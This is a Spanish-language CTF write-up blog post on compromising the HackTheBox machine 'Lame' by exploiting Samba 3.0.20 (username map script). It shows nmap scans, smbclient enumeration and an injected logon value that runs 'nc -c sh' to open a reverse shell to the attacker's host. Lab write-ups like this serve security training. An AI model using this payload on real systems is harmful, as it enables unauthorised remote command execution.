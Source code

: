 ```yaml
---
layout: post
title: "Write Up Lame. "
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Linux,HTB,SAMBA,Network,Reverse-Shell,CVE,RCE,Metasploit,Vulnerability-Assessment,Outdated-Software,eJPTv2]  
image:
  path: /assets/img/lame/Captura de pantalla (139).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.10.3 -oA allports
```


![list](/assets/img/lame/Kali-2022-09-09-21-25-44.png){:.lead width="800" height="100" loading="lazy"}


### Services and Versions


```bash
nmap -p21,22,139,445,3632 -sV -sC 10.10.10.3 -oN target
```


![list](/assets/img/lame/Kali-2022-09-09-21-27-12.png){:.lead width="800" height="100" loading="lazy"}



***

## Vulnerability Analysis


### FTP TCP 21


Buscamos la versión vulnerable de FTP **vsftpd 2.3.4** en Google y en searchsploit Samba 3.0.20, una vulnerabilidad asociada a la versión de Samba.


![list](/assets/img/lame/Kali-2022-09-09-22-14-21.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El exploit está escrito en Ruby, pero podemos buscarlo en Google en Python o Bash.


Por lo  que podemos ver el script tratara de autenticar un usualio con `/='nohup` .


### SMB - TCP 445

Listamos los recursos con **smbclient**. 


![list](/assets/img/lame/Kali-2022-09-09-22-11-03.png){:.lead width="800" height="100" loading="lazy"}


```bash
smbclient -L //10.10.10.3 -N
```


Ingrsamos al recurso compartido en la carpeta **/tmp** .


![list](/assets/img/lame/Kali-2022-09-09-22-11-42.png){:.lead width="800" height="100" loading="lazy"}


***


## Exploitation


Por lo que deducimos en el script, aquí podemos ejecutar comandos y utilizaremos el logon para ejecutar una **reverse shell**.


![list](/assets/img/lame/Kali-2022-09-09-22-16-24.png){:.lead width="800" height="100" loading="lazy"}


```bash
logon "/='nohup nc -c sh 10.10.14.17 443"
```

{:.note}
En otro terminal debe estar a la escucha un listener es decir `nc -lvnp 443`. 


```bash
find -name user.txt | xargs cat
```


***

## Privilege escalation


**Lame** no tiene escalación de privilegios ya que ya somos root, pero podemos buscar la **flag** con el siguiente comando.



![list](/assets/img/lame/Kali-2022-09-09-22-33-59.png){:.lead width="800" height="100" loading="lazy"}



```bash
find -name root.txt | xargs cat
```


***

```bash
🎉 Felicitaciones ya has comprometido Lame de HackTheBox 🎉
```
{:.centered}

***

Back to [Beginner-Track](2023-06-29-Beginer-Tack.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eJPTv2 ](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}
